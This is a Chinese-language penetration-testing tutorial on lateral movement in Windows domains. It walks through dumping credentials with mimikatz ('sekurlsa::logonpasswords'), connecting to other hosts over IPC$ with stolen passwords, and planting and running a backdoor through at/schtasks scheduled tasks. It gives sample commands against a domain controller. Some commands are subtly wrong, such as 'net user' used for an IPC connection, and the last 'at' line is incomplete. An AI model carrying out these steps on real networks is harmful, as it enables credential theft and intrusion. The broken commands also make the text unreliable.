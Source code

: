# 横向渗透

## at&schtasks命令

### 案例一 横向渗透明文传递at&schtasks

本身就是系统命令，不会被免杀

创建计划任务，前提是获得目标系统的用户明文文密码，作用可以在远程主机上执行命令

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？ 这里仅介绍 at&schtasks 命令的使用，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。

获取到某域主机权限->mimikatz 得到密码（明文，hash）->用到信息收集里面域用户的列表当做`用户名字典->用到密码明文当做密码字典`->尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令

```powershell
#提升权限
privilege::debug

#抓取密码
sekurlsa::logonpasswords
```

### 利用流程（建立在明文密码和用户名）

1. 建立IPC链接到目标主机
2. 拷贝要执行的命令脚本到目标主机
3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本
4. 删除IPC链接

```txt
#建立 IPC 常见的错误代码
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是 IP 地址错误、目标未开机、目标 Lanmanserver 服务未启动、有防火墙等问题
（4）67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码
```

需要工具

`mimikatz` `at < Windows 2012` `schtasks >= Windows 2012`

条件

1. `对方开启139、445端口`，或防火墙关闭
2. 操作系统在2003以上
3. 普通用户权限也可以连接其他主机，只要有对方的用户名和密码

```powershell
# 通过前期的信息收集，得知域控的地址为test.com，用户名为administrator 密码123.com直接连接
net user # 查看链接
net user \\192.168.216.10\ipc$ 123.com /user:test\administrator  # 连接域控
# 连接成功后，拷贝执行文件到目标机器
at \\192.168.216.10
```

